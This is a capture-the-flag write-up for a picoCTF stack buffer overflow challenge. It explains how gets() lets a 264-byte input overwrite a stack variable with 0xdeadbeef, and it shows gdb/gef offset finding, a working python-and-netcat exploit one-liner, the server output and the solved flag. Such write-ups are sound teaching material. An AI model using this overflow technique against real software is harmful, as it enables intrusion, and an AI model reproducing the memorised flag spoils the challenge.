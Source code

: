  ```python
if (code == GOAL) {
   printf("code == 0x%llx: how did that happen??\n", GOAL);
   puts("take a flag for your troubles");
   system("cat flag.txt");
```

In order to get flag, we must overwrite code and make it equal to goal.

We see that gets is used to input cluster, we see that max size of cluster is 256(0x100). So, we must give a string greater than 256 bytes to reach the variable code on the stack.

gets is vulnerable to buffer overflow

Debug with gdb, this is necessary to find where code variable is and override its value. disassemble main

 ```bash
0x000000000040074c <+133>:	call   0x4005d0 <gets@plt>
0x0000000000400751 <+138>:	mov    eax,0xdeadbeef
0x0000000000400756 <+143>:	cmp    QWORD PTR [rbp-0x8],rax
0x000000000040075a <+147>:	jne    0x40078c <main+197>
```

We see that code is stored at rbp-0x8, to reach code, we need to find the offset to reach the register rbp using a pattern string

```bash
gef➤  pattern create 300
[+] Generating a pattern of 300 bytes (n=8)
aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaaaaaanaaaaaaaoaaaaaaapaaaaaaaqaaaaaaaraaaaaaasaaaaaaataaaaaaauaaaaaaavaaaaaaawaaaaaaaxaaaaaaayaaaaaaazaaaaaabbaaaaaabcaaaaaabdaaaaaabeaaaaaabfaaaaaabgaaaaaabhaaaaaabiaaaaaabjaaaaaabkaaaaaablaaaaaabmaaa
[+] Saved as '$_gef0'
```

Use this pattern string as input and run the code

```bash
gef➤  pattern offset $rbp
[+] Searching for '6a61616161616162'/'626161616161616a' with period=8
[+] Found at offset 272 (little-endian search) likely
```

We find rbp at offset at 272.
To find position of code, we need to do rbp-8, so that is 272-8=264
We need to generate a string which is 264 bytes long and then enter a line in python to override the value of code
```bash
$ (python -c 'import sys; sys.stdout.write("A" * 264)'; echo -e '\xef\xbe\xad\xde') | nc mars.picoctf.net 31890
```

run  this to get flag
```bash
$ (python -c 'import sys; sys.stdout.write("A" * 264)'; echo -e '\xef\xbe\xad\xde') | nc mars.picoctf.net 31890
 ______________________________________________________________________
|^ ^ ^ ^ ^ ^ |L L L L|^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^|
| ^ ^ ^ ^ ^ ^| L L L | ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ |
|^ ^ ^ ^ ^ ^ |L L L L|^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ==================^ ^ ^|
| ^ ^ ^ ^ ^ ^| L L L | ^ ^ ^ ^ ^ ^ ___ ^ ^ ^ ^ /                  \^ ^ |
|^ ^_^ ^ ^ ^ =========^ ^ ^ ^ _ ^ /   \ ^ _ ^ / |                | \^ ^|
| ^/_\^ ^ ^ /_________\^ ^ ^ /_\ | //  | /_\ ^| |   ____  ____   | | ^ |
|^ =|= ^ =================^ ^=|=^|     |^=|=^ | |  {____}{____}  | |^ ^|
| ^ ^ ^ ^ |  =========  |^ ^ ^ ^ ^\___/^ ^ ^ ^| |__%%%%%%%%%%%%__| | ^ |
|^ ^ ^ ^ ^| /     (   \ | ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ |/  %%%%%%%%%%%%%%  \|^ ^|
.-----. ^ ||     )     ||^ ^.-------.-------.^|  %%%%%%%%%%%%%%%%  | ^ |
|     |^ ^|| o  ) (  o || ^ |       |       | | /||||||||||||||||\ |^ ^|
| ___ | ^ || |  ( )) | ||^ ^| ______|_______|^| |||||||||||||||lc| | ^ |
|'.____'_^||/!\@@@@@/!\|| _'______________.'|==                    =====
|\|______|===============|________________|/|""""""""""""""""""""""""""
" ||""""||"""""""""""""""||""""""""""""""||"""""""""""""""""""""""""""""  
""''""""''"""""""""""""""''""""""""""""""''""""""""""""""""""""""""""""""
""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""
"""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""
My room is so cluttered...
What do you see?
code == 0xdeadbeef: how did that happen??
take a flag for your troubles
picoCTF{c0ntr0ll3d_clutt3r_1n_my_buff3r}
```

**FLAG - `picoCTF{c0ntr0ll3d_clutt3r_1n_my_buff3r}`**
